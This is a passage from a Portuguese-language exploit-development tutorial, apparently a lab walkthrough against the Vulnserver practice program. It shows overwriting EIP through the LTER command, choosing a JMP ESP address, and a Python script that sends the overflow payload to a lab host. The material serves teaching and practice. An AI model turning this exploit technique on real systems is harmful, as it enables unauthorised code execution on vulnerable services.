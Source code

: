 ![Enumaração do comando.](/img/std/winbof/winbof-82.png)

Conseguimos sobrescrever o EIP com nossos “B”, vamos encontrar um JMP ESP com o Immunity para direcionarmos a execução para o nosso buffer.

![Enumaração do comando.](/img/std/winbof/winbof-83.png)

Encontramos nossos 9 endereços, no meu caso irei usar o 625011d3, lembrando que deve estar em little indian, ficando \xd3\x11\x50\x62.

Vamos atualizar o script e monitorar com o Immunity:

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"\xd3\x11\x50\x62"
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```